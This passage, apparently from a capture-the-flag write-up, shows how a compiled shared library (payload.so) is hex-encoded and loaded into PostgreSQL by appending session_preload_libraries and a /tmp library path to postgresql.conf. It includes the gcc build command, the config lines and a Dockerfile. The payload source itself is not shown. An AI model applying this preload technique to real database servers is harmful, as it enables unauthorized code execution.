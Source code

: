 I also update the arch (for Mac):
```dockerfile
FROM --platform=linux/amd64 node:alpine
```

After building, I put the file into `/tmp/payload.c` and compile with the provided command (again from the blog):
```
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```

I then use `xxd -p payload.so` and copy the hex content.

### Updating the config

I then manually update the config file with the 2 extra lines:
```
max_connections = 100			# (change requires restart)

shared_buffers = 128MB			# min 128kB
dynamic_shared_memory_type = posix	# the default is usually the first option
max_wal_size = 1GB
min_wal_size = 80MB
log_timezone = UTC

datestyle = 'iso, mdy'
timezone = UTC
lc_messages = C				# locale for system error message
lc_monetary = C				# locale for monetary formatting
lc_numeric = C				# locale for number formatting
lc_time = C				# locale for time formatting
default_text_search_config = 'pg_catalog.english'
listen_addresses = '*'

dynamic_library_path = '/tmp:$libdir'
session_preload_libraries = 'payload.so'
```


(For now in local, I update it with the shell):
```
# echo -e "\n\ndynamic_library_path = '/tmp:$libdir'\nsession_preload_libraries = 'payload.so'\n" >> /var/lib/postgresql/data/postgresql.conf
```

### Reload the config

And we reload! aaaaaand... Nothing!

(For some reason I had a real issue with getting this working, in the end a teammate made a `Dockerfile` that consistently worked):
```dockerfile
# Use a multi-stage build approach
FROM --platform=linux/amd64 node:alpine AS builder

# Install necessary packages
RUN apk add --no-cache gcc musl-dev
RUN apk add postgresql17-client postgresql17-dev

WORKDIR /
COPY payload.c .

# Compile specifically for x86_64
RUN gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
RUN xxd -p payload.so > payload.so.hex
CMD ["cat", "payload.so.hex"]
```
